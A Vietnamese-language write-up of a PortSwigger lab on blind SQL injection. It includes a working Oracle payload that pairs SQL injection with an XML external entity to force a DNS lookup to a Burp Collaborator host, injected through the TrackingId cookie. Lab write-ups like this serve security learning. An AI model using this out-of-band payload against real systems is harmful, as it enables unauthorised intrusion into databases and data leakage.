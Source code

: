 # Write-up: Blind SQL injection with out-of-band interaction

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi dựa trên kĩ thuật Out-Of-Band 
để gửi DNS lookup tới Burp Collaborator

### Mục tiêu
Thực hiện DNS lookup tới Burp Collaborator

### Công cụ hỗ trợ
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện

1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=kizdDsfJXTVvCYsJ'
    ```
    - **Kết quả**: Response không thay đổi hay hiển thị lỗi, xác nhận đây là Blind SQL Injection.
        ![lỗi](./images/error.png)

2. **Tạo payload**
- Mở Burp Collaborator client trong Burp Suite, sao chép subdomain `ra5k07yd7pn8efthok7l0btix930rqff.oastify.com`

- Tạo payload kết hợp SQLi và XXE (XML External Entity) để kích hoạt DNS lookup
```
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ra5k07yd7pn8efthok7l0btix930rqff.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
- **Kết quả**: DNS được gửi thành công, hoàn thành Lab
    ![dns](./images/DNS.png)
    ![lab](./images/dns_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection bằng kĩ thuật Out-Of-Band.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.